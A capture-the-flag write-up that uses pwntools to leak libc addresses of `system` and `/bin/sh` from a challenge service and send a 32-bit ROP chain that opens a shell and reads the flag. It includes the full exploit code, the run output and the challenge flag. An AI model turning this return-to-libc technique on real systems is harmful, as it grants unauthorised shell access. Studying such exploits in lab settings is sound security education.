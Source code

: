 # Writeup

The program presents us with a menu that allows us to print addresses of functions and strings in libc. It also allows us to insert a ROP chain.

The plan is to insert a ROP chain that executes `system("/bin/sh")`. The ROP chain will look like this: address of system, dummy return address, "/bin/sh".


We'll use `pwntools` to parse the information sent by the program. Here's some python code that will find the address of `system` and the string `/bin/sh`.
```python
from pwn import *

r = remote("127.0.0.1", 6666)

r.recvuntil("Choice: ")

# 2. print function address
r.sendline("2")
r.recvuntil("name: ")
r.sendline("system")
r.recvuntil("system: ")

system_addr = int(r.recvline().strip(), 16)
log.info("system addr: %s" % hex(system_addr))

# 4. search for string
r.recvuntil("Choice: ")
r.sendline("4")
r.recvuntil(": ")
r.sendline("/bin/sh")
r.recvuntil("at ")

bin_sh = int(r.recvline().strip()[:-1], 16)
log.info("/bin/sh addr: %s" % hex(bin_sh))

# 5. quit
r.sendline("5")
```

Here's an example of the output from the script:
```
$ python2 solv.py
[+] Opening connection to 127.0.0.1 on port 6666: Done
[*] system addr: 0xf759c3e0
[*] /bin/sh addr: 0xf76bda69
[*] Closed connection to 127.0.0.1 port 6666
```

ASLR is enabled, so the addresses will be different everytime we run the script. The only thing remaining now is inserting the ROP chain. We have to remember to pack the values before sending.

```python
rop = p32(system_addr)
rop += p32(0xdeadbeef)
rop += p32(bin_sh)

log.info("sending ROP chain")
r.sendline("3")
r.recvuntil("bytes: ")
r.sendline(rop)

r.interactive()
```

```
$ python2 solv.py
[+] Opening connection to 127.0.0.1 on port 6666: Done
[*] system addr: 0xf75ba3e0
[*] /bin/sh addr: 0xf76dba69
[*] sending ROP chain
[*] Switching to interactive mode
$ id
uid=1000(flag) gid=1000(flag) groups=1000(flag)
$ ls
flag.txt
$ cat flag.txt
TG16{32_bit_ROP_chains_are_easy_right?}
```

Full solution script can be found [here](src/solv.py).
